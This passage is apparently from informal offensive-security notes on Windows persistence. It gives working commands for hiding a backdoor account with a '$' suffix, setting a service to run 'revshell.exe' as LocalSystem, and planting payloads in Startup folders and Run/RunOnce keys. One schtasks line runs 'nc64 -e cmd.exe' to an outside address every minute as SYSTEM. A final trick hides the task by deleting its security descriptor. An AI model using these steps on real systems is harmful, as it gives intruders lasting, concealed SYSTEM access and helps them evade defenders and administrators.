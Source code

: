 Also, we could do a little trick here and add `$` at the end of user name. Since Windows use `$` at the end by the computer accounts, it now thinks that our user is now "computer account" (actually, it doesnt, but heard me out). Computer accounts doesnt shown by `net users` command. Why? Dont ask me. And so, our user have `$` at the end, which means he is a computer account, which means he wouldn't be shown by `net users`.

## Services
We could make services with our executable as a path or change existing service executable.
Something like:
```
sc.exe config SomeService binPath= "C:\Windows\revshell.exe" start= auto obj= "LocalSystem"
```
That's important to make `obj= "LocalSystem"` so we could get a SYSTEM rights right away. And dont forget to press space after `= `! Windows like spaces.


## Startup
Another know trick is just drop a payload to folder:
```
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
For starting application only for one user, or:
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```
To start it for every user. Quite simple.

And of course we have registry paths, which is:
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
The ones with `HKCU` will run only for the current user, the ones with `HKLM` will affect every user since it changes all local machine.
Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.
Microsoft users type `REG_EXPAND_SZ` so maybe we should also.


## Schtasks
And schtasks, we know that, just create a task like this and execute binary every minute, no issue:
```
schtasks /create /sc minute /mo 1 /tn Backdoor /tr "c:\tools\nc64 -e cmd.exe ip 4449" /ru SYSTEM
```
And we will also get SYSTEM after that.
BUT these is a cool trick that makes your task invisible!
Task has a DACL, meaning not every user could read that task and as a result, user cannot see it. We could change DACL on our task in registry with path `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`.
Note: we need to be system to edit this, so unpack your PsExec or other favorite util.
DACL stored (I think its DACL, but I may be wrong) in variable `SD` which stands for `Security Descriptor`. To be invisible we could change it, or just delete it! And since there is no DACL, no one have permission to read it! Cool stuff, but I didnt test it on editing or deleting the task, I think it also wont work but I didnt try.
